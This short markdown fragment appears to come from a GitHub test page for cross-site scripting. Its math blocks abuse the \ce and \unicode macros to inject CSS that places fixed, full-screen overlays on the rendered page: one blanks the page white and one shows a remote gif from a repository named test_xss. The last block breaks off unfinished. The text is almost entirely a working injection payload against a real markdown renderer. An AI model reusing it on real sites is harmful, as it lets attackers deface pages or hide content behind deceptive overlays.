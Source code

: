 ```math
\ce{$&#x5C;unicode[goombafont; color:red; pointer-events: none; z-index: 100; position: fixed; top: 0; left: 0; height: 100vw; width: 100vw; background-repeat: no-repeat; background-size: contain; background-position: center top; background-image: url('https://github.com/pedestrianlove/test_xss/blob/main/nothing-to-see-here.gif?raw=true');]{x0000}$}

```math
\ce{$&#x5C;unicode[goombafont; color:red; pointer-events: none; z-index: 99; position: fixed; top: 0; left: 0; height: 180vh; width: 100vw; background: white;]{x0000}$}

```math
unicode[

